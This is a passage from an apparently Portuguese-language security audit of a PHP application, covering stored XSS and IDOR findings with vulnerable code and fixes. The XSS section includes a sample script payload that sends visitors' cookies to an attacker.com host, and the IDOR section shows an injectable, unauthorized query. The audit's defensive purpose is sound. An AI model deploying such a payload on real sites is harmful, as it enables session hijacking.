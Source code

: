 ```php
    }
}
```

---

### 4. **CROSS-SITE SCRIPTING (XSS)** 🟡

**CVSS Score:** 6.1/10 - MÉDIO  
**Tipo:** Stored XSS

#### **Vulnerabilidades Identificadas:**

```php
// 🔴 VULNERÁVEL - Output sem sanitização
echo $nome_cliente; // Pode conter JavaScript
echo $obs; // Observações podem ter scripts
echo $descricao; // Descrições não sanitizadas
```

#### **Exploit Possível:**

```javascript
// Payload XSS em campo de observação
<script>
  document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

#### **Solução:**

```php
// ✅ SEGURO - Sanitização adequada
function sanitizeOutput($data) {
    return htmlspecialchars($data, ENT_QUOTES, 'UTF-8');
}

echo sanitizeOutput($nome_cliente);
echo sanitizeOutput($obs);
```

---

### 5. **INSECURE DIRECT OBJECT REFERENCE (IDOR)** 🟡

**CVSS Score:** 7.1/10 - ALTO

#### **Problema Identificado:**

```php
// 🔴 VULNERÁVEL - Acesso direto sem validação
$id = $_POST['id'];
$query = $pdo->query("SELECT * FROM clientes WHERE id = '$id'");
// ❌ Não verifica se o usuário tem permissão para acessar este cliente
```
